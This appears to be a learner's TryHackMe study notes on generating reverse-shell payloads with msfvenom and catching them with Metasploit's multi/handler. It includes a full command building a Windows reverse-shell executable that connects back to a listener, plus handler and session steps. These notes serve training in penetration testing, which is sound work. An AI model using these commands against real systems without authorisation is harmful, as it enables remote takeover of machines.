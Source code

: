 
## Msfvenom

Standard syntax: `msfvenom -p <PAYLOAD> <OPTIONS>`


`<OPTIONS>` to specify:
- f <format>
  - Specifies the output format. In this case that is an executable (exe)
- o <file>
  - The output location and filename for the generated payload.
- LHOST=<IP>
  - Specifies the IP to connect back to. When using TryHackMe, this will be your tun0 IP address. If you cannot load the link then you are not connected to the VPN.
- LPORT=<port>
  - The port on the local machine to connect back to. This can be anything between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.


Example: `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`

Basic convention for payload naming: `<OS>/<arch>/<payload>`
Linux example: `linux/x86/shell_reverse_tcp`
Windows example: `windows/shell_reverse_tcp`

Stageless payloads are denoted with underscores whereas staged payloads are denoted with forward slashes
Stageless payload: `shell_reverse_tcp`
Staged payload: `shell/reverse_tcp`

Can use `msfvenom --list payloads` to list all available payloads and then use `grep` to search for a specific set of payloads


## Metasploit multi/handler

- Multi/handler
  - Tool for catching reverse shells
  - Essential for meterpreter shells
  - Go-to for staged payloads
- How to use
  - Open Metasploit with:
    - Msfconsole
  - Then type code below and hit enter
    - use multi/handler
- Look at available options:
  - Options
- Options needed to set are
  - Payload
    - `set PAYLOAD <payload>`
  - LHOST
    - `set LHOST <listen-address>`
  - LPORT
    - `set LPORT <listen-port>``
- How to launch module(running in background)
  - Exploit -j
- To foreground multi/handler
  - Sessions 1
  - IF multiple sessions used
    - `sessions`
      - To show active sessions
        -  `sessions <number>`
